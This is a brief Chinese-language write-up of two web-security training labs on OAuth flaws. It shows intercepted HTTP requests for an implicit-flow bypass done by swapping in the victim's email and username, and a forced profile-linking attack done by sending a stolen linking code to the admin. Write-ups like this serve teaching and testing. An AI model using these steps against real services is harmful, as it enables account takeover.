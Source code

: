 # OAuth authentication

[toc]

## 1. Authentication bypass via OAuth implicit flow

在登陆的过程中可以看到这样一个POST请求：

```http
POST /authenticate HTTP/1.1
Host: ac431f011f08d88680e820f7009c004e.web-security-academy.net
Cookie: session=KulxzoQLZUMiDbWTU6Gp1kCDZAjsm6Fo
Content-Length: 113
...

{"email":"carlos@carlos-montoya.net","username":"carlos",
"token":"z1sTuU10ODvO5aESaedarRjbrZETn6D5ButNQEuL0yy"}
```

这里需要email和username以及一个token，token用自己的就可以了，然后将username和email改成carlos的，就可以登陆carlos的账户了。

## 2. Forced OAuth profile linking

我先是进去绑定社交帐号，然后退出。

然后用社交帐号登陆，竟然直接就进去了？不需要验证吗？奇奇怪怪。

查看报文的时候发现登陆用的ID，是用的我们认证时的那个ID。

我们的目的是要登陆管理员账号。那我们可以让管理员用他的账户绑定我们的社交帐号，然后进去。

那我们可以先认证自己的账户，然后链接的时候链接管理员的账户。

把下面这个包拦截，丢弃，保存他的code。发给管理员来连接。

```http
GET /oauth-linking?code=qAwlbMVLnOAjj0aWlNBV-MDlaeHunHBi6DMNLmEneUN HTTP/1.1
...
```
